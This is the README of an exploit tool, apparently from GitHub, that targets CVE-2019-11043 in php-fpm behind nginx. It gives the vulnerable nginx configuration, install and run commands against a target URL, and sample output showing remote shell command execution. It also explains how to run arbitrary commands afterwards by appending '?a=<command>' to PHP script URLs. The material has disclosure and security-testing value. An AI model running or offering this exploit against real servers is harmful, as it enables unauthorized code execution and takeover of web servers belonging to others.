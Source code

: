 # PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see below).

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

## Isn't this known to be vulnerable for years?

A long time ago php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed around 2010.

The current one doesn't require file upload, works in the most recent versions (until the fix has landed), and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go install github.com/neex/phuip-fpizdam
```

and try to run using `phuip-fpizdam [url]`. Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

## Credits

Original anomaly discovered by [d90pwn](https://twitter/d90pwn) during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).
